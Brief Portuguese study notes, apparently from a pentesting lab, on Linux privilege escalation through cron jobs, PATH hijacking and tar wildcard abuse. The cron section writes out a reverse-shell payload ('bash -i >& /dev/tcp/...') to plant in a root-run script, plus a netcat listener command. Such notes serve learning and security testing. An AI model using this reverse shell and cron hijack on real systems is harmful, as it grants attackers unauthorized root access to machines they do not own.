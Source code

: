 # File Permissions
``cat /etc/crontab`` vê os jobs configurados
se existirem jobs que executam arquivos como root e esses arquivos puderem ser editados pelo usuário podemos explora-los para criar uma reverse shell

## Exemplo
1. ``locate overwrite.sh`` arquivo que vai ser executado como root no job cron
2. ``ls -l /usr/local/bin/overwrite.sh`` checa se o arquivo é editável
3. troque o interior do arquivo por: 
```
#!/bin/bash  
bash -i >& /dev/tcp/ip-da-sua-maquina/porta 0>&1
```
4. só setar o listener na máquina atacante agora com ``nc -nvlp 4444``

# PATH Environment Variable
Essa elevação de privilégio (_privesc_) aproveita a ordem de prioridade da variável de ambiente **PATH**. A ideia é que, caso o arquivo original esteja inacessível, podemos criar um arquivo com o mesmo nome (contendo nosso código).

# Cron Jobs - Wildcards
Quando o comando `tar` no _cron job_ for executado, o curinga (`*`) será expandido para incluir esses arquivos. Como seus nomes são opções válidas da linha de comando do `tar`, o `tar` os reconhecerá dessa forma e os tratará como opções de linha de comando em vez de nomes de arquivos.


